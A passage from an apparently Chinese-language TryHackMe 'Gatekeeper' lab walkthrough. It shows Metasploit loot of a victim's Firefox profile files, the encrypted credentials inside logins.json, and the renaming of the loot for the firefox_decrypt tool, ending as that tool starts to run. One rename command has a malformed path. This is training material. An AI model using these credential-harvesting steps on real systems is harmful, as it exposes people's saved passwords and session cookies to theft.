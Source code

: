 [*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
[+] Downloaded cert9.db: /root/.msf4/loot/20211124083259_default_10.10.97.198_ff.ljfn812a.cert_093945.bin
[+] Downloaded cookies.sqlite: /root/.msf4/loot/20211124083301_default_10.10.97.198_ff.ljfn812a.cook_335589.bin
[+] Downloaded key4.db: /root/.msf4/loot/20211124083306_default_10.10.97.198_ff.ljfn812a.key4_584356.bin
[+] Downloaded logins.json: /root/.msf4/loot/20211124083310_default_10.10.97.198_ff.ljfn812a.logi_811634.bin

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\rajfzh3y.default

```
 

 用strings命令查看最后一条含有login字样的文件：
 ```
 └─# strings /root/.msf4/loot/20211124083310_default_10.10.97.198_ff.ljfn812a.logi_811634.bin                                                                         12 ⨯

{"nextId":2,"logins":[{"id":1,"hostname":"https://creds.com","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECL2tyAh7wW+dBAh3qoYFOWUv1g==","encryptedPassword":"MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECIcug4ROmqhOBBgUMhyan8Y8Nia4wYvo6LUSNqu1z+OT8HA=","guid":"{7ccdc063-ebe9-47ed-8989-0133460b4941}","encType":1,"timeCreated":1587502931710,"timeLastUsed":1587502931710,"timePasswordChanged":1589510625802,"timesUsed":1}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}

 ```

 上面看见有加密的Username和Password

 我们用[这个脚本](https://github.com/unode/firefox_decrypt)导出加密用户凭证，需要注意上面导出的文件夹要分别改成对应的文件名字

```
 ┌──(root💀kali)-[~/tryhackme/Gatekeeper/firefox_decrypt]
└─# mv /root/.msf4/loot/20211124083259_default_10.10.97.198_ff.ljfn812a.cert_093945.bin /root/.msf4/lootcert9.db 
                                                                                                                                                                                                                                                                                                                             
┌──(root💀kali)-[~/tryhackme/Gatekeeper/firefox_decrypt]
└─# mv /root/.msf4/loot/20211124083301_default_10.10.97.198_ff.ljfn812a.cook_335589.bin /root/.msf4/loot/cookies.sqlite
                                                                                                                                                                                                                                                                                                                             
┌──(root💀kali)-[~/tryhackme/Gatekeeper/firefox_decrypt]
└─# mv /root/.msf4/loot/20211124083306_default_10.10.97.198_ff.ljfn812a.key4_584356.bin /root/.msf4/loot/key4.db       
                                                                                                                                                                                                                                                                                                                             
┌──(root💀kali)-[~/tryhackme/Gatekeeper/firefox_decrypt]
└─# mv /root/.msf4/loot/20211124083310_default_10.10.97.198_ff.ljfn812a.logi_811634.bin /root/.msf4/loot/logins.json
```

执行脚本，导出用户凭证
```
┌──(root💀kali)-[~/tryhackme/Gatekeeper/firefox_decrypt]
└─# python3 firefox_decrypt.py /root/.msf4/loot/                                                      
2021-11-24 09:25:29,014 - WARNING - profile.ini not found in /root/.msf4/loot/
2021-11-24 09:25:29,015 - WARNING - Continuing and assuming '/root/.msf4/loot/' is a profile location
